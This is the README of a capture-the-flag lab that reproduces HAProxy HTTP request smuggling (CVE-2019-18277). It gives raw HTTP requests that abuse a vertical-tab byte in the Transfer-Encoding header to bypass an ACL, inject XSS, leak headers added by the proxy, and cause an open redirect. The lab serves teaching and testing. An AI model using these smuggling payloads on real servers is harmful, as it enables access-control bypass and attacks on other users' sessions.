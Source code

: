 # Lab HAProxy HTTP request smuggling - CVE-2019-18277

### Info

There are HTTP Smuggling CL.TE(TE.TE) issues in HAProxy < 2.0.6

Threr are three flags
* Using HTTP method GPOST to /
* Try to access /flag. You need bypass ACL
* Try to get your reqeust header

### Composition
* ReverseProxy: HAProxy 1.9.10
* Backend: Gunicorn 20.0.0

### Usage

Run 
``` bash
docker-compose up
```

Go http://127.0.0.1:10081/

### Testing

Run
```
./check.sh
```

You will get two flag

### HTTP Requests
If it's not success, try to send the request one more time.
Replace [\x0b] with 0b byte. Enter %0b and URL decode it.

##### Use GPOST verb
```
POST / HTTP/1.1
Content-Length: 6
Transfer-Encoding:[\x0b]chunked

0

G
```

##### Bypass ACL to access /flag
```
POST / HTTP/1.1
Content-Length: 28
Transfer-Encoding:[\x0b]]chunked

0

GET /flag HTTP/1.1
a: 
```

##### XSS
Use Burp to send request, then open browser to http://127.0.0.1:10081
If the browser doesn't alert(1), try it one more time
```
POST / HTTP/1.1
Content-Length: 128
Transfer-Encoding:[\x0b]chunked

0

POST /echo HTTP/1.1
Content-Type: application/x-www-form-urlencoded
Content-Length: 32

msg=<script>alert(1)</script>//
```

##### Get headers added by proxy
```
POST / HTTP/1.1
Content-Length: 102
Transfer-Encoding:[\x0b]chunked

0

POST /echo HTTP/1.1
Content-Type: application/x-www-form-urlencoded
Content-Length: 105

msg=
```


#### Open Redirect
Use Burp to send request, then open browser to go htpp://127.0.0.1:10081/
If the browser doesn't redirect to ww.google.com, try it one more time
```
POST / HTTP/1.1
Content-Length: 63
Transfer-Encoding:[\x0b]]chunked

0

POST /redirect HTTP/1.1
Host: www.google.com/?a=
a: asdf
```





### Reference:
* https://nathandavison.com/blog/haproxy-http-request-smuggling



